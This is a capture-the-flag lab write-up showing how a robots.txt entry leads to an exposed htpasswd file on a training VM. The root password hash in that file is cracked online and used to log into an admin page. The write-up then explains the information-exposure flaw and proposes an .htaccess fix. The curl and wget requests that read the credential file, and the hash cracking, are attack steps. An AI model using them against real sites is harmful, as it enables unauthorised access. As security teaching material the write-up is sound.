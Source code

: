 # Admin(htpasswd)

If we go to <http://192.168.31.135/robots.txt> we will find 2 folders disallowed - `/whatever` and `/.hidden`.  
Let's check <http://192.168.31.135/whatever/>

```
daniseed@DESKTOP:~/darkly$  curl -v 192.168.31.135/whatever/
*   Trying 192.168.31.135:80...
* TCP_NODELAY set
* Connected to 192.168.31.135 (192.168.31.135) port 80 (#0)
> GET /whatever/ HTTP/1.1
> Host: 192.168.31.135
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:25:44 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
<
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>
* Connection #0 to host 192.168.31.135 left intact


*   Trying 192.168.31.135:80...
* TCP_NODELAY set
* Connected to 192.168.31.135 (192.168.31.135) port 80 (#0)
> GET /whatever/htpasswd HTTP/1.1
> Host: 192.168.31.135
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:26:29 GMT
< Content-Type: application/octet-stream
< Content-Length: 38
< Last-Modified: Tue, 29 Jun 2021 18:09:05 GMT
< Connection: keep-alive
< ETag: "60db61c1-26"
< Accept-Ranges: bytes
<
root:437394baff5aa33daa618be47b75cb49
* Connection #0 to host 192.168.31.135 left intact
```

OR

```
daniseed@DESKTOP:~/darkly$ wget http://192.168.31.135/whatever/htpasswd
--2023-05-09 18:05:11--  http://192.168.31.135/whatever/htpasswd
Connecting to 192.168.31.135:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 38 [application/octet-stream]
Saving to: ‘htpasswd’

htpasswd                          100%[==========================================================>]      38  --.-KB/s    in 0s

2023-05-09 18:05:11 (2.11 MB/s) - ‘htpasswd’ saved [38/38]



daniseed@DESKTOP:~/darkly$ cat htpasswd
root:437394baff5aa33daa618be47b75cb49
```

We have login-password combination: `root:437394baff5aa33daa618be47b75cb49`

But it doesn't work on its own. So lets try and dehash it with [crackstation](https://crackstation.net/).
The password is encrypted with md5 - `qwerty123@`

Input this on <http://192.168.31.135/admin/> and we have our flag

## Explanation

Attack type: [Information exposure](https://cwe.mitre.org/data/definitions/200.html): robots.txt

> The file robots.txt is used to give instructions to web robots, such as search engine crawlers, about locations within the web site that robots are allowed, or not allowed, to crawl and index. It is often used to identify restricted or private areas of a site's contents. The information in the file may therefore help an attacker to map out the site's contents, especially if some of the locations identified are not linked from elsewhere in the site. If the application relies on robots.txt to protect access to these areas, and does not enforce proper access control over them, then this presents a serious vulnerability. [more](https://portswigger.net/kb/issues/00600600_robots-txt-file)

So the robots.txt file is often used as a primary source of information about hidden areas of the web site.

## How to fix it

>  You should not assume that all web robots will honor the file's instructions. Rather, assume that attackers will pay close attention to any locations identified in the file. Do not rely on robots.txt to provide any kind of protection over unauthorized access.

By adding this code to .htaccess file we can close robots.txt from indexing and following the hyperlink
```
<FilesMatch "robots.txt">
	Header set X-Robots-Tag "noindex, nofollow"
</FilesMatch>
```
